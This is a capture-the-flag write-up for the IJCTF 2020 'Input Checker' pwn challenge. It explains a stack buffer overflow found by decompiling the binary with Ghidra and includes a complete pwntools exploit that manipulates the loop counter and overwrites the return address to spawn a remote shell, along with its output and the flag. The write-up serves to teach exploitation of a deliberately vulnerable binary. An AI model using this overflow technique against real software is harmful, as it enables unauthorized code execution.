

# IJCTF 2020

## Input Checker

> 100
>
> Finding the best input.
>
> `nc 35.186.153.116 5001`
>
> Challenge File: [https://github.com/linuxjustin/IJCTF2020/blob/master/pwn/input](input)
>
> Author: Tux

Tags: _pwn_ _bof_ _remote shell_


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Few mitigations in place, basically no shellcode, everything else is fair game.


#### Decompile with Ghidra



You can ignore lines 15-28, they just fill up `local_648` with random garbage and then tease you with the possibility of getting a shell if you get the right garbage.

> `0x402005` on line 17 is `/dev/urandom` (look at the disassembly).

Lines 29-34 are the vulnerability:

```c
  local_20 = 0;
  while (local_20 < 0x442) {
    local_2c = getchar();
    local_438[local_20] = (char)local_2c;
    local_20 = local_20 + 1;
  }
```

This loop writes `0x442` (`getchar()`) bytes to `local_438`, however `local_438` is only `0x438` bytes above the return address (Ghidra stack diagram):

```
undefined8        RAX:8              <RETURN>
undefined4        Stack[-0x1c]:4     local_1c
undefined4        Stack[-0x20]:4     local_20
undefined8        Stack[-0x28]:8     local_28
undefined4        Stack[-0x2c]:4     local_2c
undefined4        Stack[-0x38]:4     local_38
undefined4        Stack[-0x3c]:4     local_3c
undefined4        Stack[-0x40]:4     local_40
undefined4        Stack[-0x44]:4     local_44
undefined4        Stack[-0x48]:4     local_48
undefined1        Stack[-0x438]:1    local_438
undefined1        Stack[-0x648]:1    local_648
```

Clearly we can overwrite the return address.  And the obvious target is `execve` above (line 26 disassembly):

```
00401253 ba 00 00 00 00         MOV        EDX,0x0
00401258 be 00 00 00 00         MOV        ESI,0x0
0040125d 48 8d 3d ae 0d 00 00   LEA        RDI,[s_/bin/sh_00402012] = "/bin/sh"
00401264 e8 37 fe ff ff         CALL       execve  // int execve(char * __path, char *
```

Easy, just write out 1080 (`0x438`) bytes followed by `0x0000000000401253`, right?

Well, not really.  On the way to the return address is `local_20`--the loop counter.  Some care will need to be taken to set `local_20` correctly at the right time. 


### Exploit

```python
#!/usr/bin/env python3

from pwn import *

#p = process('./input')
p = remote('35.186.153.116', 5001)

#p.recvuntil('Input: ')

'''
undefined8        RAX:8              <RETURN>
undefined4        Stack[-0x1c]:4     local_1c
undefined4        Stack[-0x20]:4     local_20
undefined8        Stack[-0x28]:8     local_28
undefined4        Stack[-0x2c]:4     local_2c
undefined4        Stack[-0x38]:4     local_38
undefined4        Stack[-0x3c]:4     local_3c
undefined4        Stack[-0x40]:4     local_40
undefined4        Stack[-0x44]:4     local_44
undefined4        Stack[-0x48]:4     local_48
undefined1        Stack[-0x438]:1    local_438
undefined1        Stack[-0x648]:1    local_648
'''

payload  = (0x438 - 0x20) * b'A'
payload += p8(((0x438 - 0x20) & 0xFF) + 0x20 - 1)
payload += p64(0x401253)

p.sendline(payload)
p.interactive()
```

> This works locally, but remotely I had to comment out the `recvuntil`--probably a buffering issue on their end.

The payload has the following three movements:

#### The Fast Movement (Allegro)

`(0x438 - 0x20) * b'A'` overflows the buffer (`local_438`) and stack just before the variable `local_20` (the loop counter).

> See the stack diagram above as to why it's `(0x438 - 0x20)`.


#### The Slow Movement (Adagio)

After blasting `1048` (`0x438` - `0x20`) bytes, we need to slow down and send one specific byte to have `local_20` jump over itself and target the return address.

```c
  local_20 = 0;
  while (local_20 < 0x442) {
    local_2c = getchar();
    local_438[local_20] = (char)local_2c;
    local_20 = local_20 + 1;
  }
```

At this point in the execution `local_20` is 1048 (`0x418`), the next `getchar()` value will be written to `local_438[1048]` which is the same as the low order byte of `local_20`.  We cannot just blindly keep writing `A`s.  What we need to write is a value that when incremented will have `local_438` + `local_20` pointing to the return address:

```python
p8(((0x438 - 0x20) & 0xFF) + 0x20 - 1)
```

To do this, we need to increase the least significant byte of `local_20` by `0x20` (distance from the return address (see stack diagram above), less `1`, because it gets added back with `local_20 = local_20 + 1`.


#### The Dance Number (Scherzo ("joke"))

Now that `local_438` + `local_20` is pointing to the return address, overwrite with the address to the `execve` call in `main`:

```python
payload += p64(0x401253)
```


#### Output

```
# ./exploit.py
[+] Opening connection to 35.186.153.116 on port 5001: Done
[*] Switching to interactive mode
$
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

$ cat flag.txt
IJCTF{1nt3r3st1ng_e3sY-s0lut10ns_ex1sTz!}
```

#### Flag

```
IJCTF{1nt3r3st1ng_e3sY-s0lut10ns_ex1sTz!}
```
